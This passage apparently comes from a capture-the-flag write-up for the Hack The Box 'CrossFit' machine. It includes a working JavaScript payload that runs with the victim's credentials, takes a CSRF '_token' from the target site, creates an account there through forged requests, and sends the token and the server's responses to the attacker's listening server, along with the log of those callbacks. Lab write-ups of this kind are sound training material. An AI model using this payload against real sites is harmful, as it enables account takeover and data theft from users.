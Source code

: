 I modified my script to retrieve the hidden `_token` value.  At first, I tried just reading the value of the `_token` element out of the response, but after some troubleshooting and more reading I found that the response text wasn't being properly parsed.  

* [https://www.w3docs.com/snippets/javascript/how-to-get-the-value-of-text-input-field-using-javascript.html](https://www.w3docs.com/snippets/javascript/how-to-get-the-value-of-text-input-field-using-javascript.html)
* [https://o7planning.org/12337/parsing-xml-in-javascript-with-domparser](https://o7planning.org/12337/parsing-xml-in-javascript-with-domparser)

Once I was able to correctly parse this from the output I was able to send my POST request to the server to create a new user.  First though, I had the test script send just the token back to me so I could see that it worked.

```markup
10.10.10.208 - - [15/Jan/2021 19:37:38] "GET /test2.js HTTP/1.1" 200 -
10.10.10.208 - - [15/Jan/2021 19:37:38] code 404, message File not found
10.10.10.208 - - [15/Jan/2021 19:37:38] "GET /ObNaK9gJvibNxvnGNi26mA1IdM5PfI6BVme775Nc HTTP/1.1" 404 -
```

I received the reply back, this time with only the hidden `_token` value.

```javascript
//test3.js
//send user creation request to /accounts
//
//Get the response from /accounts/create with the _token
var test = "http://ftp.crossfit.htb/accounts/create";
var request1 = new XMLHttpRequest();
request1.open('GET', test, false);
request1.withCredentials = true;
request1.send()
var response1 = request1.responseText;

//var token = response1.getElementsByName('_token')[0].value;
var parser = new DOMParser();
var response_text = parser.parseFromString(response1, "text/html");
var token = response_text.getElementsByName('_token')[0].value;

//send values of 'test' for username and password and append _token
var values = "username=test&pass=test&_token=" + token;

//send request to my waiting python http.server for troubleshooting
var request2 = new XMLHttpRequest();
request2.open('POST', 'http://10.10.14.161:8090/' + values, true);
request2.withCredentials = true;
request2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
request2.send();

//send _token, username, password  to /accounts 
var request3 = new XMLHttpRequest();
var values = "username=test&pass=test&_token=" + token;
request3.open('POST', 'http://ftp.crossfit.htb/accounts', false);
request3.withCredentials = true;
//the server needs to know what type of content it is receiving
request3.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
request3.send(values);
var response3 = request3.responseText;

//send request to my waiting python http.server with reply from account creation
var request4 = new XMLHttpRequest();
request4.open('GET', 'http://10.10.14.161:8090/' + response3, true);
request4.send();
```
